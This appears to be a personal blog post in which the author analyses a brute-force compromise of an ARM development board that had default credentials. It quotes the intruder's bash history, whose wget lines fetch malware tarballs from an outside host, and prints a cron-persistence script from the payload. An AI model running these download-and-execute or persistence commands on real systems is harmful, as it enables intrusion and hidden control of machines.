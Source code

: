 ```yaml
---
layout: post
title:  Been HACKED!
date:   2013-09-07
categories: "Blah Blah"
---
```


Recently my Kayla development board cannot get correct DHCP address
for some reason. I sent an email to sysadmin. They replied that an
alert was triggered on their IDS and my board was believed has been
compromised, so they blocked it:

~~~
> 128.223.6.140 triggered alerts when it grabbed files from
> superuser.clan.su.  We have identified this type of activity as being
> similar to activity that occurred with a server, during that the same
> timeframe, that was confirmed as being successfully SSH brute
> forced.
>
> Based on the available data 128.223.6.140 likely has an account, with
> a weak password, that was successfully brute forced.
>
> Please block this system on the CIS network until the system
> administrator can investigate the issue.  If you are unable to block
> the system please update this ticket and I'll block the IP address on
> the campus network. IDS alert data is available below.  Timestamps
> are local TZ.
~~~

SH*T! Kayla comes with an factory default Ubuntu. There is a default
user `ubuntu` with password `ubuntu`, which is indeed **WEAK**. I am
aware of that but didn’t take it seriously: Kayla is just an embedded
system which contains no critical data, and I thought I won’t be so
unlucky to be the prey.

It turns out I was wrong.

Do tell your son the world is dangerous.

I am curious what has been done on Kayla. Looks like the hacker didn’t
bother to erase his footprint in `~/.bash_history`:

~~~
1399 w
1400 uptime
1401 cd /var/tmp
1402 ls -a
1403 mkdir ". "
1404 cd ". "
1405 wget superuser.clan.su/hu.tgz
1406 tar zxvf hu.tgz
1407 rm -rf hu.tgz
1408 cd .m
1409 ls
1410 nano zmeu.ini
1411 vi zmeu.ini
1412 ./autorun
1413 ./run
1414 uname -a
1415 cd ..
1416 rm -rf .m
1417 wget superuser.clan.su/miau.tgz
1418 tar zxvf miau.tgz
1419 rm -rfm i
1420 cd .us
1421 rm -rf miau.tgz
1422 cd .usr/
1423 ls
1424 vi miaurc
1425 ./h -s /usr/sbin/sshd ./init -d /var/tmp/". "/.usr
1426 cd ..
1427 ls -a
1428 rm -rf .usr/
1429 wget superuser.clan.su/psybnc-linuxRO.tgz
1430 tar zxvf psybnc-linuxRO.tgz
1431 rm -rf psybnc-linuxRO.tgz
1432 mv psybnc/ .p
1433 cd .p
1434 ls
1435 chmod 777 *
1436 chmod +X *
1437 ls
1438 ps x
1439 ps -aux
1440 mv ntpd lightdm
1441 ./lightdm
1442 uname -a
~~~

Hmmm... A directory named `. ` (dot space)? Interesting.

`zmeu.ini`? Google tells me `ZmEu` is an exploit scanner. I downloaded
the `hu.tgz`, unpacked and had a quick check:

~~~
$ file autorun
autorun: POSIX shell script, ASCII text executable
$ cat autorun
#!/bin/sh
pwd > zmeu.dir
dir=$(cat zmeu.dir)
echo "* * * * * $dir/update >/dev/null 2>&1" > zmeu.cron
crontab zmeu.cron
crontab -l | grep update
echo "#!/bin/sh
if test -r $dir/zmeu.pid; then
pid=\$(cat $dir/zmeu.pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > update
chmod u+x update
~~~

OK, he installed a cron job.

~~~
ubuntu@kayla:~$ crontab -l
* * * * * /var/tmp/. /.m/update >/dev/null 2>&1
~~~

Now what’s in `./run`?

~~~
$ file run
run: POSIX shell script, ASCII text executable
$ cat run
#!/bin/sh
export PATH=.
-sh
$ file -- -sh
-sh: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.4.1, not stripped
~~~

So he invoked a (most likely customized) shell, and what has been done
under this shell is unknown to me.

`miau.tgz`? Google says `miau` is an "IRC-bouncer/proxy". So the
hacker want some IRC bot? 1419~1422 looks like some typo to me. Don’t
panic, dude.

I am wandering what is `./h`. Luckily there is a `h.c` which I guess
is the source code for `./h` in the tarball.

~~~
$ file h
h: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.4.1, not stripped
$ head h.c
/*

psf -- Process Stack Faker (a.k.a. Fucker)
Coded by Stas; (C)opyLeft by SysD Destructive Labs, 1997-2003

Tested on: FreeBSD 4.3, Linux 2.4, NetBSD 1.5, Solaris 2.7

Compile with:
# gcc -O2 -o h h.c
# strip h
~~~

Good, typical hacker tool.

Next tarball is `psybnc-linuxRO.tgz` which turns out to be yet another
IRC bouncer. Why did he need two IRC bouncer? I doubt I can figure out
the reason.

OH BOY! WAIT! DID I MENTION THAT KAYLA IS AN ARM BASED SYSTEM?

~~~
ubuntu@kayla:~$ uname -a
Linux kayla 3.1.10-carma #1 SMP PREEMPT Wed Jul 10 12:53:50 CEST 2013 armv7l armv7l armv7l GNU/Linux
~~~

All the binaries the hacker downloaded in the tarball are for Intel x86!

I believe this is what the hacker was thinking about when he saw the
output of `uname -a` (line 1442):

> WTF!!!

This makes me feel much better :D
